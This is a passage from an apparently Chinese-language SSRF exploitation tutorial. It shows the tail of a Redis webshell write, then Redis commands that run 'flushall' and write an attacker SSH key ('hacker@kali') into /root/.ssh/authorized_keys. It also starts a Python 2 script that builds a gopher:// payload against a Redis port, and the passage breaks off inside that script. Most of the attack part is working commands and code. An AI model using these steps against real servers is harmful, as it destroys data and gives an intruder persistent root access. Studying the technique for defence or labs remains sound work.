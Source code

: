     shell.php
    *1
    $4
    save
    ```
    
6. 成功写入：
    ![image-20240417211532284](SSRF/image-20240417211532284.png)

#### 5.1.2 Redis 写入 SSH 公钥

1. 如果 `.ssh` 目录存在且可写入，那么往 `~/.ssh/authorized_keys` 写入公钥。如果不存在，可以考虑利用 crontab 来创建目录。

2. 首先是 redis 命令：
    ```bash
    flushall
    set 1 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINRnb1SOYJgKYhaTSKSV+66ELmfWCDGZXyG/qBc+TR8p hacker@kali' # 公钥
    config set dir /root/.ssh/ # 写入的路径
    config set dbfilename authorized_keys
    save
    ```

    公钥需要通过 `ssh-keygen` 生成，默认在 `~/.ssh/` 目录下。

3. 将 Redis 写 Shell 的脚本进行修改：
    ```python
    # python2 script
    # encoding: utf-8
    import urllib
    protocol="gopher://"
    ip="192.168.43.111"
    port="6379"
    # 1. 改内容
    shell="\n\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINRnb1SOYJgKYhaTSKSV+66ELmfWCDGZXyG/qBc+TR8p hacker@kali\n\n"
    # 2. 改文件名